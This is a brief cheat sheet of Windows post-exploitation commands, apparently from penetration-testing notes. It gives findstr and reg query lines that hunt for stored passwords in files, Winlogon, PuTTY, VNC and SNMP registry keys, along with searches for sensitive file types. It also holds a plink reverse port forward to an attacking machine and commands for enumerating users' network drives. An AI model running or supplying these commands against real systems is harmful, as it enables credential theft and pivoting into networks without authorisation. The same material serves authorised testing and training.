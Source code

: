 Attempt to find password strings in all files:

    findstr /spin "password" *.*
    findstr /spin "credentials" *.*
    findstr /spin "secret" *.*

Find all common configuration or sensitive files:

    dir/q \*.txt /s
    dir/q \*.rar /s
    dir/q \*.zip /s
    dir/q \*.xls /s
    dir/q \*.xlsx /s
    dir/q \*.ini /s
    dir/q \*.cap /s
    dir/q \*.pcap /s
    dir/q \*.exe /s
    dir/q \*.pdf /s

Attempt to find password strings in registry settings:

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

## Port Forwarding

Using plink.exe. Recommend using secondary user from attacking machine:

    plink.exe -l <user> -pw <password> <attacking-ipaddress> -R <lport>:127.0.0.1:<rport>

## Network drives

### Find users mapped drives

Show current mapped drives:

    net share

Search registry for user SID:

    reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\" /s

Then finding the SID, get the network paths and usernames used to connect, if any:

    reg query "HKEY_USERS\<SID>\Network" /s

### Map a drive

Create a network drive:

    net use Z: \\<path>\
